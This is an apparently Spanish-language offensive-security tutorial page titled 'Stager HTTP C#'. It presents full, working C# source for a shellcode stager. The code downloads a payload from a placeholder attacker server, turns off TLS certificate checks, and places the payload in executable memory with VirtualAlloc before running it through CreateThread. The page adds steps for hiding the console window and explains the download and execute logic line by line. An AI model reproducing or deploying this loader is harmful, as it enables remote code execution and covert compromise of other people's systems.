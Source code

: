 # Stager HTTP C\#

## Código

{% code lineNumbers="true" %}
```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Runtime.InteropServices;
using System.Net;

namespace stagerHttp
{
    class Program
    {
        public static void Main(String[] args)
        {
            byte[] shellcode = Download("http://<ip-shellcode-server>:<port>/<shellcode-filename>");
            Execute(shellcode);

            return;
        }

        private static byte[] Download(string url)
        {
            ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;

            System.Net.WebClient client = new System.Net.WebClient();
            byte[] shellcode = client.DownloadData(url);

            return shellcode;
        }


        [DllImport("kernel32")]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        private static void Execute(byte[] shellcode)
        {
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (UInt32)shellcode.Length, 0x1000, 0x40);
            Marshal.Copy(shellcode, 0, (IntPtr)(addr), shellcode.Length);


            IntPtr hThread = IntPtr.Zero;
            IntPtr threadId = IntPtr.Zero;
            hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, threadId);

            WaitForSingleObject(hThread, 0xFFFFFFFF);

            return;
        }
    }
}

```
{% endcode %}



## Configuración inicial

Para ocultar la consola hay que seleccionar este campo

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Para compilar en 64 bytes:

<figure><img src="../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>



## Explicación

### Función Main

En este bloque lo que hacemos es almacenar lo que la función Download() devuelve en una variable para luego ejecutarla.

```csharp
public static void Main(String[] args)
        {
            byte[] shellcode = Download("http://<ip-shellcode-server>:<port>/<shellcode-filename>");
            Execute(shellcode);

            return;
        }
```



### Función Download

La primer linea de esta función se encarga de que cuando queramos descargar el shellcode no se fije en los errores producidos por https, que si bien podría funcionar sin esto, puede servir en otra situación.

{% embed url="https://learn.microsoft.com/en-us/dotnet/api/system.net.servicepointmanager.servercertificatevalidationcallback?view=net-7.0" %}

Después nos valemos del método **DownloadData()** para descargar como bytes el contenido de lo que le pasemos como url y posteriormente retornarlo.

```csharp
private static byte[] Download(string url)
        {
            ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;

            System.Net.WebClient client = new System.Net.WebClient();
            byte[] shellcode = client.DownloadData(url);

            return shellcode;
        }
```

